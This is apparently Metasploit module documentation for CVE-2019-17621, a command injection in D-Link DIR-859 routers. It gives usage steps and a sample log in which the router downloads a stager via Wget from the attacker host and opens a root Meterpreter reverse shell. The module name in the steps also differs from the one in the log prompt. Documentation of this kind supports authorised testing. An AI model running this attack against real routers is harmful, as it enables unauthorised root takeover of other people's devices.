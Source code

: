 ## Introduction

This module exploits CVE.2019-17621, a remote unauthenticated OS command injection in the UPnP API of the DIR-859 and other D-link SOHO routers via the `service` argument to the `gena.cgi` URL.

## Vulnerable Application

Get a D-Link DIR-859 router (or [any of the devices/firmware versions mentioned here](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10147)), or download firmware versions 1.06 or 1.05 and run them on firmadyne or similar emulation frameworks.

## Verification Steps

1. Set up router/emulated device
2. Start `msfconsole`
3. Do: `use exploit/linux/upnp/dlink_dir859_subscribe_exec`
4. Do: `set RHOSTS <router_ip>`
5. Do: `set LHOST <local_ip>`
6. Do: `run`
7. You should get a session as `root`.

## Scenarios

### D-link DIR-859 Firmware 1.05
```
msf exploit(linux/http/dlink_dir859_exec_telnet) > run 

[*] Started reverse TCP handler on 192.168.0.2:4444 
[*] Using URL: http://192.168.0.2:8080/r2hOQycyVvN2BP
[*] Client 192.168.0.1 (Wget) requested /r2hOQycyVvN2BP
[*] Sending payload to 192.168.0.1 (Wget)
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Meterpreter session 7 opened (192.168.0.2:4444 -> 192.168.0.1:54599) at 2020-01-10 11:36:52 -0300
[*] Server stopped.

meterpreter > getuid 
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo 
Computer     : 192.168.0.1
OS           :  (Linux 2.6.32.70)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter >
```
